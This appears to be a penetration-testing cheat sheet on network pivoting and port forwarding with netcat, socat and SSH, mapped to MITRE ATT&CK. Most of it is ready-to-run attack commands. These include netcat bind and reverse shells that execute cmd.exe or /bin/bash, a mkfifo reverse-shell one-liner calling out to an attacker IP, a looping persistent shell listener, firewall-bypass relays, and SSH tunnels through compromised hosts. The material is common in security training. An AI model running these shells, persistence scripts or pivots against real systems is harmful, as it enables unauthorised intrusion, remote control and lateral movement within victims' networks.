




> [!abstract] Pivoting & Port Forwarding
> A comprehensive guide on network pivoting, tunneling, and bypassing network boundaries using Netcat, Socat, and SSH. This allows an attacker to route traffic through a compromised machine to reach otherwise inaccessible internal networks.
> 
> **MITRE ATT&CK Mappings:**
> - **Exfiltration:** [TA0010](https://attack.mitre.org/tactics/TA0010/)
> - **Discovery:** [TA0007](https://attack.mitre.org/tactics/TA0007/)
> - **Command and Control (C2):** [TA0011](https://attack.mitre.org/tactics/TA0011/)
## Netcat (nc) Fundamentals

> [!info]+ Basic Usage & File Transfer
> Netcat is the "Swiss Army knife" of networking, used for reading and writing data across networks.
> 
> **Client & Server Setup:**
> ```bash
> # Client (No DNS resolve, Verbose)
> nc -nv <IP> <port>
> 
> # UDP Client
> nc -nvu <IP> <port>
> 
> # Server (Listen)
> nc -nvlp 1234
> nc -nvlup 1234 # UDP listen
> 
> # Port Scanning (v: verbose, z: scan, w3: 3s timeout)
> nc -vzw3 192.168.10.32 10-1000
> ```
> 
> **File Transfer (Client to Server):**
> ```bash
> # Server (Receiving file)
> nc -nvlp 1234 > hel.txt
> 
> # Client (Sending file)
> nc -nv 192.168.10.2 1234 < slm.txt
> ```
> 
> **Windows Binaries Path:** `/usr/share/windows-binaries/netcat.exe`

> [!example]+ Bind & Reverse Shells
> 
> **Windows Bind Shell:**
> ```bash
> # Victim (Listens and executes cmd)
> nc -nvlp 1234 -e cmd.exe
> # Attacker (Connects)
> nc -nv <Victim_IP> 1234
> ```
> 
> **Windows Reverse Shell:**
> ```bash
> # Attacker (Listens)
> nc -nvlp 1234
> # Victim (Connects back and executes cmd)
> nc -nv <Attacker_IP> 1234 -e cmd.exe
> ```
> 
> **Linux Bind Shell:**
> ```bash
> # Victim Linux (Listens)
> nc -nvlp <port> -c /bin/bash
> # Attacker Windows
> nc.exe -nv <Victim_IP> <port>
> ```
> 
> **Linux Reverse Shell:**
> ```bash
> # Attacker Windows (Listens)
> nc -nvlp <port>
> # Victim Linux (Connects back)
> nc -nv <Attacker_IP> <PORT> -c /bin/bash
> ```
> ```bash
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc -nv 192.168.10.32 4444 > /tmp/f
> ```

> [!tip]+ Netcat Persistence (Looping Listener)
> Keeps a Netcat listener alive even after the client disconnects.
> ```bash
> # Create a script
> echo 'while [ 1 ]; do echo "Started"; nc -l -p 1234 -e /bin/sh; done' > listener.sh
> 
> # Make executable and run in background
> chmod 555 listener.sh
> ./listener.sh &
> # Alternatively:
> nohup ./listener.sh &
> ```
## Relays (Traffic Pivoting)

> [!bug]+ Netcat Relay (Using `mkfifo`)
> Used when you need to bounce traffic through a machine (e.g., to bypass a firewall).
> 
> ```bash
> # 1. On the Pivot (Firewall) machine:
> mkfifo pipe
> 
> # 2. Attacker connects to Pivot on port 2222:
> nc -nv 172.20.10.1 2222
> 
> # 3. Pivot forwards traffic to Victim port 80:
> nc -nvlp 2222 < pipe | nc 10.10.10.100 80 > pipe
> 
> # 4. Victim executes cmd:
> nc -nvlp 80 -e cmd.exe
> ```

> [!bug]+ Socat Relay
> A more robust alternative to Netcat for relaying traffic.
> ```bash
> # Listens on port 81 and forwards all traffic to TargetIP:80
> socat -ddd TCP4-LISTEN:81,fork,reuseaddr TCP4:TargetIporURL:80
> ```

---

## SSH Port Forwarding

> [!warning] Understanding SSH Tunneling
> SSH port forwarding allows you to tunnel arbitrary TCP connections through an encrypted SSH channel. This is extremely useful for bypassing firewalls and pivoting into internal networks.

### 1. SSH Local Port Forwarding (`-L`)

> [!info] Concept
> Opens a port on your **local** machine. Traffic sent to this local port is forwarded through the SSH server to a remote destination.
> 
> **Scenario:** We want to access `HRSHARES:445` from Kali, but we can only SSH into `PGDatabase01`.



> [!example]+ Local Forward Execution
> ```bash
> # Run on Kali (or Confluence depending on topology)
> # Syntax: ssh -N -L <LocalPort>:<RemoteTargetIP>:<RemoteTargetPort> user@<SSH_Server>
> ssh -N -L 0.0.0.0:4455:HRSHARES_IP:445 user@IP_PGDatabase01
> 
> # Now, accessing localhost:4455 on Kali will connect to HRSHARES:445
> smbclient -L //127.0.0.1/ -p 4455 -U "HRSHARES" --password=""
> ```
> *`-N`: No interactive shell.* 
> *`-L`: Local forwarding.*

---

### 2. SSH Dynamic Port Forwarding (`-D`)

> [!info] Concept
> Creates a SOCKS proxy on your **local** machine. Any application configured to use this SOCKS proxy will have its traffic routed through the SSH server, allowing access to multiple ports/IPs dynamically.



> [!example]+ Dynamic Forward Execution
> ```bash
> # Run on Kali to connect to Confluence01
> ssh -N -D 0.0.0.0:9999 user@IP_PGDatabase01
> 
> # Configure Proxychains
> nano /etc/proxychains4.conf
> # Add: socks5 IPConfluence01 9999
> 
> # Run tools through the SOCKS proxy
> proxychains smbclient -L //HRSHARES_IP/ -U "HRSHARES" --password=""
> proxychains nmap -Pn HRSHARES_IP
> ```

---

### 3. SSH Remote Port Forwarding (`-R`)

> [!info] Concept
> The reverse of Local Forwarding. It opens a port on the **remote** SSH server, which forwards traffic back to a service on your local machine (or a machine accessible from your local machine). Useful when the target cannot route to you directly, but you can SSH out.



> [!example]+ Remote Forward Execution
> ```bash
> # Run from Confluence01 (Compromised internal host) to connect to Kali
> ssh -N -R 127.0.0.1:2345:PGDatabase01_IP:5432 User@Kali_IP
> 
> # On Kali: Access the forwarded port locally
> nc 127.0.0.1 2345
> ```

---

### 4. SSH Remote Dynamic Port Forwarding

> [!info] Concept
> Creates a SOCKS proxy on the **remote** Kali machine from an internal compromised host. This allows the attacker (Kali) to use the compromised internal host as a pivot point to scan and access the entire internal network behind it.



> [!example]+ Remote Dynamic Forward Execution
> ```bash
> # Run from Confluence01
> ssh -N -R 9998 User@IP_Kali
> 
> # On Kali: Configure Proxychains
> nano /etc/proxychains4.conf
> # Add: socks5 127.0.0.1 9998
> 
> # Run tools through the reverse SOCKS proxy
> proxychains nmap -Pn IP_Multiserver03
> ```

---

## Resources

> [!quote] Reverse Shell & Payload Generators
> - [Reverse Shell Generator (revshells.com)](https://www.revshells.com)
> - [PayloadsAllTheThings Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

